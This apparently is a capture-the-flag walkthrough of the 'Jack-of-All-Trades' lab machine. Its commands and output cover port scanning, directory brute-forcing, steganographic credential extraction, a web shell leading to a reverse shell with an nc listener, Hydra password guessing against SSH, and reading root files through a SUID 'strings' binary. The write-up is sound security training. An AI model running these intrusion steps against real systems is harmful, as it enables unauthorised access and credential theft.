







# Jack-of-All-Trades

First, we conduct an Nmap scan:

```
nmap -Pn -sS -sV -p- 10.114.152.125
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -Pn -sS -sV -p- 10.114.152.125
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-05-26 08:28 EDT
Nmap scan report for 10.114.152.125
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 28.52 seconds
```

We can see that the service ports have been switched; HTTP is served on port 22 and SSH on port 80. Once we navigate to `10.114.152.125:22` in Firefox, we encounter an error:



To fix this, we can apply the following changes in the Firefox settings:



Once we land on the webpage, we can examine the source code.



We can see that there is a `/recovery.php` endpoint and some base64-encoded data. We paste this data into CyberChef and get the following output:

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

Next, we conduct directory brute-forcing using Gobuster:

```
gobuster dir -u [http://10.114.152.125:22](http://10.114.152.125:22) -w /usr/share/wordlists/dirb/big.txt
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u [http://10.114.152.125:22](http://10.114.152.125:22) -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     [http://10.114.152.125:22](http://10.114.152.125:22)
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 320] [--> [http://10.114.152.125:22/assets/](http://10.114.152.125:22/assets/)]
/server-status        (Status: 403) [Size: 279]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We check the `/assets` directory and find a `stego.jpg` file. We can check if there is something hidden in this file (hinting at steganography). We save the image to our desktop and use the following command. When prompted for a passphrase, we enter the previously recovered password `u?WtKSraq`:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ steghide extract -sf stego.jpg
Enter passphrase: 
wrote extracted data to "creds.txt".
```

We can see that the extraction was successful and the data was written to the `creds.txt` file. We open the file to check its contents:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ cat creds.txt                                     
Hehe. Gotcha!

You're on the right path, but wrong image!
```

We receive a clue indicating that we should try the same process with another image file, so we repeat it with `header.jpg`:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ steghide extract -sf header.jpg      
Enter passphrase: 
wrote extracted data to "cms.creds".
                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop]
└─$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

Now we have the CMS credentials. We can use them to log in at the previously discovered `/recovery.php` endpoint. Once we log in, we see the following page:



We get a clue that a web shell has been provided for us on this webpage. We test it using the `cmd` query string parameter:



We can see that it works successfully and returns the expected output. Now, we can deploy a reverse shell (first, we need to URL-encode it using a tool like CyberChef):



```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 4444                     
listening on [any] 4444 ...
connect to [192.168.204.155] from (UNKNOWN) [10.114.152.125] 44738
whoami
www-data
hostname
jack-of-all-trades
```

Once we head to the `/home` directory, we notice a strange ASCII file there:

```
cd /home
ls
jack
jacks_password_list
cat jacks_password_list
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
```

We can try conducting a dictionary attack using this password list:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l jack -P passwords.txt ssh://10.114.152.125:80
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra ([https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)) starting at 2026-05-26 09:32:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.114.152.125:80/
[80][ssh] host: 10.114.152.125   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra ([https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)) finished at 2026-05-26 09:32:26
```

We found Jack's valid SSH credentials. We can now log into the webserver over SSH:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh jack@10.114.152.125 -p 80
The authenticity of host '[10.114.152.125]:80 ([10.114.152.125]:80)' can't be established.
ED25519 key fingerprint is SHA256:bSyXlK+OxeoJlGqap08C5QAC61h1fMG68V+HNoDA9lk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.114.152.125]:80' (ED25519) to the list of known hosts.
jack@10.114.152.125's password: 
jack@jack-of-all-trades:~$ 
jack@jack-of-all-trades:~$ 
jack@jack-of-all-trades:~$ whoami
jack
jack@jack-of-all-trades:~$ hostname
jack-of-all-trades
jack@jack-of-all-trades:~$ 
```

Once we connect and list Jack's home directory, we can see a `user.jpg` file. We copy this file to our local desktop:

```
jack@jack-of-all-trades:~$ ls
user.jpg
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ scp -P 80 jack@10.114.152.125:/home/jack/user.jpg .
jack@10.114.152.125's password: 
user.jpg
```

Next, we open the file using Firefox, where we can see the user flag:



Now, we can try to obtain the root flag. First, we check for interesting SUID binaries:

```
jack@jack-of-all-trades:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```

We can see that the `strings` binary is listed there. We can use it to read the root flag located in `/root/root.txt`:

```
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```